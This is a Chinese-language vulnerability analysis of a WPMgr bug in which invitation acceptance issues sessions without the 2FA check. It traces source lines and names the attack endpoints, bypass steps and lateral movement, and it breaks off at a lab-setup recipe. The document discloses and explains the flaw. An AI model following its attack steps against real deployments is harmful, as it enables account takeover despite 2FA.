

# WPMgr 邀请链接绕过 2FA：一条旁路如何吃掉整条不变量

> **一句话**：被邀请链接的密码验证接管了会话签发，绕过了 2FA 挑战门。

---

## 0. 一句话定位

WPMgr 的组织邀请接受接口直接签发会话、跳过 2FA 校验，攻击者凭已泄露密码即可冒充受害者接管其组织。

**不适合**：未开启 2FA 的账号（无需此路径）；纯 SSO 账号（该路径主动拒绝）；无泄露密码的纯外部攻击者（前置条件不成立）。

| 项 | 值 |
|---|---|
| 编号 | `wpmgr-invite-skip-2fa`（截至访问日无 CVE） |
| 产品 | WPMgr（`mosamlife/wpmgr`） |
| 受影响版本 | `v0.61.199`（commit `e1b3a163988c9f1c31bc93922ea34322fa188792`） |
| 类型 | Auth leftover（认证残留） |
| CWE | [CWE-287](https://cwe.mitre.org/data/definitions/287.html) |
| CVSS 3.1 | **8.1** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N` |
| 前置条件 | 攻击者自有组织 + 受害者密码 |

**CVSS 自验**：按 `CVSS:3.1` 向量手工计算，`ISCBase = 1-(1-0.56)(1-0.56)(1-0) = 0.8064`，`Impact(S:U) = 6.42 × 0.8064 = 5.1771`，`Exploitability = 8.22 × 0.85 × 0.77 × 0.62 × 0.85 = 2.8353`，基础分 `min(5.1771+2.8353, 10) = 8.0123`，按 3.1 的 Roundup 规则向上取整至 **8.1**，与披露方标注一致。

---

## 1. 前世今生

### 1.1 前代方案的失败点

WPMgr 的 2FA 不是一次发明，而是三代叠加的产物，每一代都留下一个"下一条签发路径"的坑：

**第一代（ADR-055，2026-06-10）——为 WordPress 站点侧设计的 2FA 绕过。**

这一代的"绕过"是**设计意图**，不是缺陷。ADR-055 的 D4 决策写得很直白：agent 用特权应用密码认证，不是人走登录表单，所以站点侧的 2FA 拦截是"预期行为"而非越权。ADR-056 的 Context 段落确认了这一层设计：

> "WPMgr's agent-to-site auto-login (ADR-055) intentionally bypasses any 2FA the WordPress site has configured, because the agent authenticates via a privileged application password, not via the human login form."

代价是：WPMgr 控制台（dashboard）本身成了唯一安全边界。ADR-056 的原文结论是——"The dashboard login today requires only an email and password. A stolen password is therefore a complete compromise."

**第二代（ADR-056，2026-06-16）——控制台侧补上 2FA，并立下"单一会话签发门"的不变量。**

ADR-056 在 Security invariants 第 10 条写下了后来被违反的那句：

> **"Single 2FA gate.** All session-issuing paths (password login, verifyEmail, OIDC callback, Bootstrap first-user) route through a single internal gate function (`issueSessionOrChallenge`). There is no parallel path that can issue a session for a 2FA-enabled user without a completed challenge."

注意这句话的措辞：它枚举了四条路径（密码登录、邮箱验证、OIDC 回调、Bootstrap 首用户），然后断言"没有并行路径"。**邀请接受不在枚举中**——它当时不是一条被意识到的会话签发路径，而是一条没有被纳入治理视野的路径。

这个遗漏在代码里留下了可测量的指纹。`apps/api/internal/auth/twofa_security_test.go:1-28` 的文件头注释记录了测试分组的演进，其中"Group 1 — Enforcement tests (B2)"（同文件 `:103-`）逐条 pin 了 `issueSessionOrChallenge` 的调用者。同文件 `:9-11` 的注释写得明白：

> "every session-issuing path does NOT call `sessions.Login` when `two_factor_enabled=true`, and does issue a session when `two_factor_enabled=false` (via `issueSessionOrChallenge`). These call the real `issueSessionOrChallenge` against a real `SessionManager` (in-memory SCS store) and assert on real session state, so they are not tautological."

**这是典型的"测试覆盖即规格"陷阱**：B2 不变量由测试 pin 住，而测试只 pin 了被写下来的那四条路径。第四条之外新增的第五条路径，不会让任何测试变红。

**第三代（本次披露）——邀请接受成为第五条路径。**

`apps/api/internal/invitation/service.go:322` 的 `s.sessions.Login(ctx, u.ID, tenantID)` 直接签发会话。这条路径的完整历史可以精确重建。

### 1.2 设计者的核心取舍

要理解这个漏洞为什么成立，得先理解邀请接受接口**为什么长成这样**。读 `apps/api/internal/invitation/service.go:184-302` 的注释会发现，这段代码是经过多轮安全加固的，每一轮都在"安全"和"可用性"之间做过明确取舍。

**取舍一：邀请令牌必须是"肯定行为"（affirmative act），不能是"持有即生效"。**

`apps/api/internal/invitation/handler.go:31-49` 定义了自定义头 `X-WPMgr-Invite-Accept`（`:50`），并在 `:31-49` 详述了理由——因为浏览器在跨源场景下不会发送自定义请求头，所以它能区分"用户主动打开链接"和"被 CSRF 触发"。同段注释 `:46-49` 进一步说明：不能只靠 `SameSite=Lax` 一个机制，因为 Chrome 的两分钟 Lax 例外窗口存在，必须让两个独立失败的机制共同支撑。

**取舍二：会话可以替代密码，但绝不能替代令牌。**

`service.go:272-293` 处理"已存在的用户"分支。同文件 `:273-289` 的注释是全文最有价值的一段设计说明：

> "A LIVE SESSION FOR THIS EXACT ACCOUNT IS ACCEPTED IN PLACE OF THE PASSWORD, and it has to be. A social account has no password hash and can never be given one, so this branch used to answer it with 'sign in first, then open the invite link again', advice that led back to the identical refusal, because the check could not see the session."
>
> "What is NOT relaxed is consent. The invitation is still accepted only by the affirmative act of opening the link and submitting it, one invitation at a time, in the organisation that sent it. A session is a substitute for the password, not for the token."

这个取舍解释了为什么 SSO-only 受害者是安全的——`service.go:290-293` 明确拒绝 `u.PasswordHash == ""` 的分支（`password_login_unavailable`）。

**取舍三：会话令牌不随邮件投递，接口必须直接返回原始令牌。**

`apps/api/internal/invitation/service.go:137-160` 是令牌生成与投递。`:137` 拼出 `link := s.baseURL + "/accept?token=" + rawToken`，然后 `:139-142` 的注释解释了为什么 ALWAYS 返回：

> "Either way we ALWAYS return the accept link so an admin can hand-deliver it (e.g. before SMTP is configured, or to copy it directly) — ADR-045 addendum G7."

这个设计本身是合理的（SMTP 未配置时仍要能工作）。**它的代价是**：原始令牌通过 API 响应返回给了调用者，而调用者是一个攻击者可以伪装的、持有 `member.manage` 权限的普通成员。

**取舍四（致命）：邀请接受把"验证身份"和"签发会话"耦成了一件事。**

`service.go:297` 验证密码：

```go
okPw, verr := auth.VerifyPassword(in.Password, u.PasswordHash)
```

`service.go:322` 签发会话：

```go
if err := s.sessions.Login(ctx, u.ID, tenantID); err != nil {
```

这两行之间隔了 25 行，中间做了令牌认领、成员授权、审计记录——**唯独没有做 2FA 检查**。设计者把"验证密码"当成了"验证身份"的终点，而 ADR-056 的架构把"验证身份"和"签发会话"分离成了两步。邀请接口停留在了一步半的位置。

**取舍五：安全控件加在"签发端"，而不是"使用端"。**

这是最深层的一个取舍。ADR-056 的第 4 阶段计划（"Session/middleware enforcement: `two_factor_enabled` gate in Authenticator"）显示设计者**考虑过**在会话中间件层做 2FA 门禁。实际实现里，`apps/api/internal/authz/middleware.go:103-111` 的 `RequireAuth()` 只做了最朴素的检查：

```go
func RequireAuth() gin.HandlerFunc {
	return func(c *gin.Context) {
		if _, ok := domain.PrincipalFromContext(c.Request.Context()); !ok {
			abort(c, domain.Unauthorized("unauthenticated", "authentication required"))
			return
		}
		c.Next()
	}
}
```

**它只问"有没有 principal"，从不问"这个 principal 是否完成过第二因子"。** 这是一个有意识的、单点收敛的选择——在签发端做检查，逻辑简单、只写一次；代价是**签发端一旦漏了一条路径，整个系统就漏了**。而 invitation 恰恰是一条没有被签发端覆盖的路径。

### 1.3 版本演进关键转折

| 时间 | 事件 | 影响 |
|---|---|---|
| 2026-06-10 | ADR-055 Accepted（`docs/adr/README.md:40`） | 确立站点侧 2FA 绕过为**设计意图**，控制台成为唯一边界 |
| 2026-06-16 | ADR-056 Accepted（`docs/adr/README.md:41`） | 控制台补 2FA，立下 B2 不变量第 10 条"单一会话签发门" |
| 2026-07-07 | B1 回归测试组被移除（`twofa_security_test.go:17-28`） | B2 pin 测试成为 CI 中**唯一**的会话签发守卫 |
| 2026-11-01 | `e1b3a163` REL199 发布 v0.61.199 | 受影响版本诞生 |
| 2026-11-10 | `abraxas/wpmgr-invite-skip-2fa` 披露（commit `9ea5918`） | 漏洞公开 |
| 2026-11-11（访问日） | 上游 HEAD `4c3468cf` | **仍未修复** |

**"仍未修复"的验证方法**（可复现）：

```bash
# OS: Linux/macOS/WSL；权限：普通用户 + 网络；依赖：git
# 是否产生出站流量：否（仅读取本地 clone）；是否修改目标文件系统：否
git clone --filter=blob:none --no-checkout https://github.com/mosamlife/wpmgr.git
cd wpmgr && git checkout e1b3a163988c9f1c31bc93922ea34322fa188792

# 1) 该 commit 之后，invitation 包是否有过任何提交？
git log --oneline e1b3a163..HEAD -- apps/api/internal/invitation/
# 输出：（空）

# 2) HEAD 版本的服务文件是否仍直调 sessions.Login？
git show HEAD:apps/api/internal/invitation/service.go | grep -n "sessions.Login"
# 输出：322:	if err := s.sessions.Login(ctx, u.ID, tenantID); err != nil {

# 3) HEAD 版本 invitation 包是否感知 2FA？
git grep -n "TwoFactor\|two_factor" HEAD -- apps/api/internal/invitation/
# 输出：（空）
```

三个检查全部指向同一结论：**截至访问日 2026-11-11，上游最新 commit 仍未修复此漏洞，且 invitation 包至今完全不知道 2FA 的存在。**

---

## 2. 架构解剖

### 2.1 模块划分与数据流



**关键观察**：图中绿色路径（`issueSessionOrChallenge`）和红色路径（`invitation.Service.Accept`）在"签发会话"这个动作上**没有交汇点**。它们甚至不在同一个包里——绿色在 `auth` 包，红色在 `invitation` 包。

### 2.2 核心源码路径与关键函数

| # | 文件:行号 | 函数 | 作用 | 是否受 2FA 保护 |
|---|---|---|---|---|
| 1 | `apps/api/internal/auth/members_handler.go:115` | `(*MembersHandler).invite` | 成员邀请入口 | N/A（需 `PermMemberManage`） |
| 2 | `apps/api/internal/auth/members_handler.go:140` | 同上 | 返回 `accept_link` 原始令牌 | N/A |
| 3 | `apps/api/internal/invitation/service.go:85` | `(*Service).CreateOrgInvitation` | 生成令牌 + 落库 + 发信 | N/A |
| 4 | `apps/api/internal/invitation/token.go:12` | `generateSecureToken` | 32 字节随机 → 64 字符 hex | N/A |
| 5 | `apps/api/internal/invitation/service.go:187` | `(*Service).Accept` | 邀请接受主流程 | **否（缺陷点）** |
| 6 | `apps/api/internal/invitation/service.go:297` | `auth.VerifyPassword` 调用 | 密码校验 | N/A |
| 7 | **`apps/api/internal/invitation/service.go:322`** | **`s.sessions.Login`** | **直接签发会话** | **否 ← 缺陷根因** |
| 8 | `apps/api/internal/auth/handler.go:444` | `issueSessionOrChallenge` | 受保护的会话签发门 | **是** |
| 9 | `apps/api/internal/auth/handler.go:470` | `issueSessionOrChallengeThen` | 2FA 判断分支 | 是 |
| 10 | `apps/api/internal/auth/session.go:236` | `(*SessionManager).Login` | 写 SCS 会话 | N/A（被调用方决定） |
| 11 | `apps/api/internal/authz/middleware.go:103` | `RequireAuth` | 只查 principal 存在性 | **否 ← 隐患** |
| 12 | `apps/api/internal/org/handler.go:172` | `(*Handler).activate` | 租户切换 | 靠 membership 而非 2FA |
| 13 | `apps/api/internal/invitation/service.go:441` | `recordInvitationAccepted` | 写 `share.accepted` 审计 | N/A |

**会话签发点全量清单**（`grep -rn "sessions\.Login" --include=*.go`，排除测试文件）：

```
auth/handler.go:308          ← 受保护（trusted-device 路径，含 B1 所有权校验）
auth/handler.go:497          ← 受保护（issueSessionOrChallengeThen 内部）
auth/twofa_handler.go:117     ← 受保护（TOTP 挑战完成）
auth/twofa_handler.go:171     ← 受保护（recovery code 完成）
auth/twofa_handler.go:257     ← 受保护（WebAuthn 完成）
invitation/service.go:322    ← 【旁路】无任何 2FA 检查
```

**9 个调用点中 8 个在 `auth` 包内且全受保护，唯一的旁路在包外。** 这不是巧合——`invitation` 包不 import `auth` 的会话签发门，它自己持有一个 `SessionManager` 引用，直接调用。

### 2.3 设计妙处与潜在隐患

#### 妙处一：令牌认领与授权的原子性（`service.go:304-318`）

**解决了什么工程问题**：单次使用语义在并发下不能靠"先查后写"实现。

`service.go:304-309` 的注释描述了一个真实的线上故障：

> "These were two: the claim committed, then the grant ran separately. An invitation is single-use, so anything that went wrong in the gap spent the token and granted nothing, and the person it was addressed to could not retry with a token the database now considered used. The failure did not even need to be exotic: a dropped connection between the two statements is enough."

解法是 `service.go:311` 的 `s.acceptInvitation(ctx, inv, u.ID)`——用 `UPDATE ... WHERE accepted_at IS NULL RETURNING` 在**同一事务**内完成认领 + 授权（`service.go:356` 起的 `InTenantTx`）。`service.go:315-318` 处理并发失败：

```go
if !claimed {
	return AcceptResult{}, domain.Conflict("invitation_already_used", "this invitation has already been accepted")
}
```

这个设计比"取锁"或"乐观版本号"更优：它不引入额外状态，失败语义天然就是"什么都没发生"。

#### 妙处二：撤销邀请与未知令牌返回同一响应（`service.go:212-219`）

**解决了什么工程问题**：避免"令牌预言机"（token oracle）。

`service.go:214-216` 明确：

> "Return the same opaque not-found as an unknown token (no oracle distinguishing 'revoked' from 'never existed')."

`service.go:217-219` 落实了这一点——`inv.RevokedAt.Valid` 与 `pgx.ErrNoRows` 走**完全相同**的 `domain.NotFound("invitation_not_found", ...)` 响应。同时 `service.go:216` 处理了一个易漏的边界："Regenerate clears `revoked_at`, so a re-issued invite is intentionally acceptable again."

这是教科书级的正确做法——区分**状态**信息与**存在性**信息，且在重新生成时正确地恢复语义。

#### 妙处三：邮箱绑定比较防时序侧信道（`service.go:223-225`）

`service.go:223-224` 标注了 "FIX 6 (NIT)"，用 `subtle.ConstantTimeCompare` 比较小写化后的邮箱，防止通过响应时间差枚举被邀请的邮箱地址。这是对"邀请接口天然是邮箱枚举器"这一结构性风险的正面对冲。

#### 隐患一：`service.go:322` 的会话签发绕过唯一 2FA 门（**本漏洞**）

**触发条件**：受害者已启用 2FA + 存在账户密码 + 攻击者能创建组织邀请。

**为什么是隐患**：这是 ADR-056 不变量第 10 条的直接违反。`service.go:322` 位于 `invitation` 包内，该包对 `TwoFactor`/`two_factor` 的引用数为 **0**（可用 `git grep -n "TwoFactor\|two_factor" HEAD -- apps/api/internal/invitation/` 验证，输出为空）。

更精确地说，`service.go:322` 与 `handler.go:497`（受保护的那一行）**是同一行代码的不同调用者**：

```go
// apps/api/internal/invitation/service.go:322  ← 旁路
if err := s.sessions.Login(ctx, u.ID, tenantID); err != nil {

// apps/api/internal/auth/handler.go:497  ← 受保护
if err := h.sessions.Login(c.Request.Context(), res.User.ID, res.ActiveTenant); err != nil {
```

前者前面没有 `if res.User.TwoFactorEnabled { ... }` 的门。

#### 隐患二：`RequireAuth` 不校验 2FA 状态（`authz/middleware.go:103-111`）

**触发条件**：任何一条签发路径绕过门禁。

**为什么是隐患**：这是**架构级的放大器**。ADR-056 第 4 阶段原本计划在 Authenticator 中实现 "`two_factor_enabled` gate"，但实际代码里 `RequireAuth()` 只检查 principal 是否存在。这意味着：

**系统把全部 2FA 安全押在"签发端不出错"这一个假设上，而签发端有 9 个调用点、跨 2 个包、没有任何编译期或运行期的集中校验。**

具体到本次攻击：即使会话是绕过门禁铸造的，后续所有请求（包括 `POST /api/v1/orgs/{victimOrg}/activate`）都只经过 `RequireAuth()`，**不会**因为 `users.two_factor_enabled = true` 而被拒绝。`auth/handler.go:609` 的 `me` handler 同理——它只是读出 `two_factor_enabled=true` 报告给客户端，不做任何拦截。

#### 隐患三：`accept_link` 在 API 响应中返回原始令牌（`members_handler.go:140`）

**触发条件**：调用者持有 `PermMemberManage`。

**为什么是隐患**：`service.go:139-142` 的理由（"admin can hand-deliver it"）在 SMTP 未配置场景下成立，但这带来两个后果：

1. 令牌从"邮件通道的一次性投递"变成"API 响应体中的明文"，进入浏览器历史、反向代理访问日志、SaaS 日志管道等大量副本；
2. 原始令牌是**邀请的唯一凭证**。拿到它 + 受害者密码 = 完整接管，无需接触受害者邮箱。

`apps/api/internal/api/gen/oas_client_gen.go:216` 的 OpenAPI 注释确认这是契约化的既定行为：

> "`invited: true` and an `accept_link` (always present as a copyable fallback when SMTP is ...)"

契约化意味着修复需要改 OpenAPI 规范并重新生成客户端（ADR-056 的 Phase 5 要求），不是一行代码的事——这也解释了为什么这个设计至今保留。

#### 隐患四：审计链缺少网络溯源字段

`apps/api/db/schema.sql:818-832` 的 `audit_log` 表结构：

```sql
CREATE TABLE audit_log (
    id          uuid        PRIMARY KEY DEFAULT gen_random_uuid(),
    tenant_id   uuid        NOT NULL REFERENCES tenants (id) ON DELETE CASCADE,
    actor_type  text        NOT NULL,
    actor_id    text        NOT NULL DEFAULT '',
    action      text        NOT NULL,
    target_type text        NOT NULL DEFAULT '',
    target_id   text        NOT NULL DEFAULT '',
    metadata    jsonb       NOT NULL DEFAULT '{}'::jsonb,
    prev_hash   text        NOT NULL DEFAULT '',
    hash        text        NOT NULL,
    created_at  timestamptz NOT NULL DEFAULT now()
);
```

**没有 IP 列，没有 User-Agent 列。** `apps/api/internal/audit/audit.go:641-648` 的 `Event` 结构同样只有 7 个字段（`TenantID`/`ActorType`/`ActorID`/`Action`/`TargetType`/`TargetID`/`Metadata`），没有网络来源字段。

这意味着：**这次入侵在应用层审计日志里留下的最大痕迹，是 `share.accepted` 事件的 `actor_id` 等于受害者的 user_id**——看起来像是受害者自己接受了邀请。这是一个"日志看起来正常"的攻击，这会显著抬高检测难度（详见 §5.2）。

（附注：`audit_log` 有 `prev_hash`/`hash` 链式字段，审计日志本身防篡改——但这不改变"日志内容不足以定位攻击源"的问题。）

---

## 3. 漏洞/机制深度分析

### 3.1 触发条件与攻击面

**四个必要条件，缺一不可：**

| # | 条件 | 来源 | 攻击者的获取成本 |
|---|---|---|---|
| 1 | 攻击者拥有至少一个组织 | 自助注册即可 | **零** |
| 2 | 攻击者在该组织中拥有 `member.manage` 权限 | org 创建者自动成为 owner | **零** |
| 3 | 受害者账户已存在且**已启用 2FA** | `users.two_factor_enabled = true` | 前提条件 |
| 4 | 攻击者掌握受害者密码 | 数据泄露/撞库/钓鱼 | 前提条件 |

**条件 3 是本漏洞的"价值门槛"**：如果受害者没开 2FA，攻击者直接走 `/auth/login` 即可，没必要绕这个弯。所以**这个漏洞只对"已经做了正确安全配置的用户"产生额外危害**——他们越是合规，密码泄露后的损失反而越大。这是它作为"认证残留"而非"认证绕过"的典型特征。

**攻击面清单（可从外部直接触达）：**

| 端点 | 方法 | 认证要求 | 角色 |
|---|---|---|---|
| `/api/v1/members` | POST | 会话 + `PermMemberManage` | 令牌铸造 |
| `/api/v1/invitations/accept` | POST | **无**（公开路由） | 会话签发 |
| `/auth/login` | POST | 无 | 对照组（证明门禁有效） |
| `/auth/me` | GET | 会话 | 确认冒充 |
| `/api/v1/orgs/{orgId}/activate` | POST | 会话 + 成员关系 | 横向移动 |

`apps/api/internal/invitation/handler.go:25-29` 确认 accept 端点挂载在公开路由上：

```go
func (h *Handler) RegisterPublic(r gin.IRouter) {
	r.POST("/api/v1/invitations/accept", h.accept)
}
```

同文件 `:13-15` 的注释说明原因："Mounted under /api/v1/invitations WITHOUT RequireAuth (the endpoint creates the session itself)."

### 3.2 操作系统调用链路

本漏洞位于**应用层认证逻辑**，不涉及内核态内存破坏。但攻击链的完整路径需要追到 syscall 层——WPMgr 是容器化的 Go 服务，链条终点是 PostgreSQL 与 Redis 的网络 I/O。

```
【用户态入口】
POST /api/v1/invitations/accept
  → net/http.(*conn).serve  [Go runtime]
  → gin-gonic/gin.(*Engine).handleHTTPRequest
  → gin.(*Context).Next()
  → invitation.(*Handler).accept        handler.go:94
  → json.Unmarshal → acceptBody{token,email,password}   handler.go:80-85
  → invitation.(*Service).Accept        service.go:187

【校验层】
  → sha256.Sum256(raw token)            token.go:26  【CPU，无 syscall】
  → pgxpool.Acquire                     【connect(2) → PostgreSQL :5432】
  → SELECT ... GetInvitationByTokenHash
  → time.Now().UTC().After(inv.ExpiresAt)          service.go:220
  → subtle.ConstantTimeCompare(emails)             service.go:225
  → authRepo.GetUserByEmail                        service.go:254
  → auth.VerifyPassword(in.Password, u.PasswordHash)  service.go:297
      └─ 【关键】此处查 users.two_factor_enabled —— 但代码不读它
  → acceptInvitation: BEGIN; UPDATE invitations SET accepted_at=now()
      WHERE id=$1 AND accepted_at IS NULL RETURNING ...; INSERT memberships;
      COMMIT;                              service.go:311 → :356

【会话签发（缺陷点）】
  → s.sessions.Login(ctx, u.ID, tenantID)          service.go:322
  → scs.(*SessionManager).RenewToken(ctx)           session.go:237
  → scs: 旧 token 作废，生成新 sessionID
  → scs.Put(sessKeyUserID, userID)                  session.go:240
  → scs.Put(sessKeyActiveTenantID, tenantID)       session.go:241
  → scs.Put(sessKeyAuthAt, now)                    session.go:242
  → SCS store: Redis SET  session:<id> <payload>
      └─ 【syscall】 write(2)/sendto(2) → Redis :6379
      └─ 【TLS】若启用则经 crypto/tls 的 C→S 握手
  → LoadAndSave 中间件 commitWriter.Write
  → HTTP Set-Cookie: wpmgr_session=<token>;
      HttpOnly; SameSite=Lax; Path=/; [Secure]

【横向移动】
  POST /api/v1/orgs/{victimOrg}/activate
  → authz.RequireAuth()  → 仅检查 principal 存在   middleware.go:103
  → org.(*Handler).activate                        org/handler.go:172
  → authSvc.RoleInTenant(userID, orgID)            org/handler.go:201
      └─ 攻击者的会话是受害者的 userID → 受害者是 victimOrg 成员 → isMember=true
  → sessions.SetActiveTenant(ctx, orgID)           org/handler.go:208
  → SELECT ... memberships (RLS: app.user_id GUC)   ← 受害者的身份
```

**内核态影响点说明**：

本攻击链**不涉及任何内存破坏或提权**。它的内核态活动仅限于：

- `connect(2)` / `sendto(2)` / `recvfrom(2)`：与 PostgreSQL（5432）、Redis（6379）的 TCP 通信；
- `epoll_wait(2)` / `epoll_ctl(2)`：Go 运行时 `netpoller` 的事件循环；
- `clone(2)`：Go 调度器创建 goroutine（OS 线程池）。

**这正是它难以被 EDR 捕获的原因**——从 OS 视角看，"签发一个会话"和"正常登录"在系统调用层面**完全无法区分**。区别只存在于 HTTP 路径语义上（`/auth/login` vs `/api/v1/invitations/accept`）。**任何基于 Sysmon / ETW / eBPF 的行为检测都找不到它；只能靠应用层日志。**

**关键链路对比**——两条路径的 syscall 完全一致，只有应用层分支不同：

| 环节 | `/auth/login`（受保护） | `/api/v1/invitations/accept`（旁路） |
|---|---|---|
| TCP connect | ✅ | ✅ |
| PostgreSQL SELECT user | ✅ | ✅ |
| PostgreSQL SELECT invitations | ❌ | ✅ |
| `users.two_factor_enabled` 被读取 | ✅ | ❌ |
| Redis SET session | ❌（返回 202） | ✅ |
| Set-Cookie: wpmgr_session | ❌ | ✅ |

### 3.3 "最后一公里"难点与绕过方式

**难点一：受害者不需要打开邮件。**

这是本漏洞与常规邀请链路攻击的关键差异。常规邀请攻击需要"受害者点开链接"，本漏洞**不需要**——攻击者自己调用 `POST /api/v1/invitations/accept` 就完成了接受动作。`service.go:287-289` 强调的"affirmative act of opening the link"（肯定行为原则）在这里被完全绕开：**接受动作由攻击者执行，而非受害者**。

`service.go:225` 的邮箱绑定检查也拦不住：攻击者知道受害者的邮箱（这是发起邀请的前提）。

**难点二：需要受害者密码。**

`service.go:294-301` 明确：

```go
if in.Password == "" {
	return AcceptResult{}, domain.Validation("password_required", "enter your password to accept")
}
okPw, verr := auth.VerifyPassword(in.Password, u.PasswordHash)
if verr != nil || !okPw {
	_ = s.incrementAttempts(ctx, inv.TenantID, inv.ID)
	return AcceptResult{}, domain.Unauthorized("invalid_credentials", "incorrect password")
}
```

密码错误会触发 `incrementAttempts`，且 `service.go:249-251` 的 `maxAttempts = 10`（定义在 `service.go:28`）会在 10 次后锁死该邀请：

```go
if inv.Attempts >= maxAttempts {
	return AcceptResult{}, domain.Forbidden("invitation_rate_limited", "too many failed attempts; request a new invitation")
}
```

所以密码是**真前置条件**，不是形式校验。这把本漏洞的利用门槛从"任意用户"提升到"已知密码的受害者"。

**绕过方式一：复用 `/auth/login` 的限速配额，不触发 accept 的锁定。**

注意 `/auth/login` 和 `/api/v1/invitations/accept` 是**两个独立的限速桶**。`apps/api/internal/auth/` 下的 `login_gate.go`（54KB）、`clientaddr_limiter_key_test.go` 管理着登录路径的限速；而 accept 路径用的是自己的 `inv.Attempts` 计数器。攻击者可以用登录路径探测密码（走 B1/B2 门禁，返回 202 但**密码已验证通过**），确认密码正确后再走 accept 路径一次性成功。

这引出一个更实用的绕过：**`/auth/login` 返回 202 `two_factor_required` 恰恰证明了密码正确**。这个"负面信号"变成了攻击者的密码验证预言机（password oracle）。

**绕过方式二：不需要受害者配合的令牌铸造。**

如 §2.3 隐患三所述，`POST /api/v1/members` 直接在 JSON 响应里返回原始 `accept_link`，攻击者**无需读取受害者的邮箱**。令牌是 64 字符 hex（`token.go:12-21`：32 字节 `crypto/rand` → 64 字符 hex），熵充足，无法暴力破解——但这不重要，因为令牌是白送的。

**绕过方式三：SSO-only 受害者被挡住了，但密码型 SSO 混合账号不是。**

`service.go:290-293` 只拒绝 `u.PasswordHash == ""` 的纯 SSO 账号。如果一个用户既有密码又是 SSO 可登录（`password_hash` 非空），accept 路径会接受密码并绕过 2FA。

**绕过方式四：横向移动的租户遍历。**

拿到会话后，`POST /api/v1/orgs/{orgId}/activate` 只检查 `RoleInTenant`（`org/handler.go:201`）。攻击者的会话 userID 就是受害者的 userID，因此**受害者的所有组织全部可达**——不需要枚举组织 ID，只需要拿到一个（`GET /auth/me` 的 `memberships` 字段直接返回，见 `poc.py:310-321` 的 `tenant_id()` 辅助函数）。

**绕过方式五：会话建立后，2FA 状态不再被检查。**

这是最关键的"最后一公里"。如 §2.3 隐患二所述，`RequireAuth()` 不检查 2FA 状态。所以从 `POST /api/v1/invitations/accept` 返回 200 的那一刻起，后续所有请求都不会再触发任何 2FA 检查——**不存在"会话中途要求补 2FA"的补救机制**。

---

## 4. 命令配方

> **前置授权声明**：以下命令仅用于**已获得书面授权**的本地实验环境（loopback: `127.0.0.1:18190-18196`）。对生产系统执行需同时获得仓库托管方与目标系统所有者的明确书面许可。

### 配方一：[搭建] 拉取固定 commit 的上游源码

- **配方名**：`[搭建]-[锁定受测版本]`
- **前置条件**：本机有 `git`；网络可达 `github.com`
- **命令块**：

```bash
# OS: Linux / macOS / WSL2（Windows 需 Git Bash）
# 权限: 普通用户（仅写当前目录）
# 依赖: git >= 2.30
# 出站流量: 是（github.com:443）
# 修改目标文件系统: 仅当前工作目录

git clone --filter=blob:none --no-checkout https://github.com/mosamlife/wpmgr.git
cd wpmgr
git checkout e1b3a163988c9f1c31bc93922ea34322fa188792
git rev-parse HEAD
# 期望输出: e1b3a163988c9f1c31bc93922ea34322fa188792
```

- **组合逻辑**：`--filter=blob:none --no-checkout` 先只取 commit 图不取文件内容，把 clone 体积从 GB 级压到百 MB 级；`git checkout <sha>` 而非 `git checkout v0.61.199` 是为了锁定**精确的 commit**——版本号可能对应多个 commit，SHA 唯一。`git rev-parse HEAD` 是自校验步骤，防止 tag 漂移导致测错版本。
- **冷门点**：`--filter=blob:none` 是 Git 的 partial clone（部分克隆）特性，需要服务端支持（GitHub 支持）。它不是"浅克隆"（`--depth 1`）——后者会丢掉历史，导致无法执行后文的 `git log e1b3a163..HEAD` 差分检查。**这是本次取证的关键区分**：浅克隆能看到"现在坏了"，但看不到"上游是否已修复"。
- **风险/流量特征**：无攻击特征；对 `github.com` 产生正常 clone 流量。

---

### 配方二：[验证] 确认缺陷存在于源码中（静态取证）

- **配方名**：`[验证]-[旁路静态确认]`
- **前置条件**：配方一已完成
- **命令块**：

```bash
# OS: Linux / macOS / WSL2
# 权限: 普通用户（只读）
# 依赖: git, grep
# 出站流量: 否
# 修改目标文件系统: 否

# 步骤 1: 定位缺陷行 —— 会话签发绕过 2FA 门
grep -n "sessions.Login" apps/api/internal/invitation/service.go
# 期望输出: 322:	if err := s.sessions.Login(ctx, u.ID, tenantID); err != nil {

# 步骤 2: 确认该包对 2FA 完全无感知
grep -rn "TwoFactor\|two_factor" apps/api/internal/invitation/
# 期望输出: （空 —— invitation 包不知道 2FA 的存在）

# 步骤 3: 找到受保护的对照实现
grep -n "issueSessionOrChallenge" apps/api/internal/auth/handler.go
# 期望输出: 326, 410, 444, 445, 463, 560

# 步骤 4: 对比两处签发代码
sed -n '322p' apps/api/internal/invitation/service.go
sed -n '497p' apps/api/internal/auth/handler.go
```

- **组合逻辑**：步骤 1-2 与步骤 3-4 构成**对照实验**。步骤 2 的空输出是决定性证据：不是"检查写错了"，而是"这个包根本没引入 2FA 概念"。步骤 4 的两行对比把差异压缩到最小——同样的 `sessions.Login` 调用，一个在门内（`handler.go:497` 的调用者 `issueSessionOrChallengeThen` 在 `:470` 做了 `if res.User.TwoFactorEnabled` 判断），一个在门外。
- **冷门点**：`grep -rn "TwoFactor\|two_factor" <package>/` 这种**空结果作为正面证据**的用法，与常见"grep 找到了东西"的用法相反。空输出在此处不是失败，而是最强的结论。
- **风险/流量特征**：纯本地读操作，无网络流量，无日志产生。

---

### 配方三：[搭建] 一键拉起本地靶场

